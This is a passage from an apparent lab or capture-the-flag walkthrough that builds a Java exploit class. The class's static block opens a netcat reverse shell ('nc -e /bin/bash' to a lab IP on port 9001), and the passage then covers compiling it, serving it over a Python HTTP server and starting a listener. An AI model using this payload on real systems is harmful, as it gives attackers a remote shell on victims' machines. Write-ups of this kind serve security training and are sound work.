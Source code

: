We now need to create the exploit payload

{% hint style="warning" %}
Note: This port we are using will be the netcat listener port we are waiting for a connecttion on
{% endhint %}

{% code title="Exploit.java" %}
```java
public class Exploit {
    static {
        try {
            java.lang.Runtime.getRuntime().exec("nc -e /bin/bash 10.10.20.17 9001");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```
{% endcode %}

We also need to compile it with `javac Exploit.java -source 8 -target 8` and we shoulld get `Exploit.class`

![](<../../../.gitbook/assets/image (10) (1).png>)

Now we need to serve this class file with `python3 -m http.server`. I also moved this class file into another directory to keep it seperate from the java file.

![](<../../../.gitbook/assets/image (16) (1).png>)

Next we need to set up a netcat listener

![](<../../../.gitbook/assets/image (19) (1).png>)
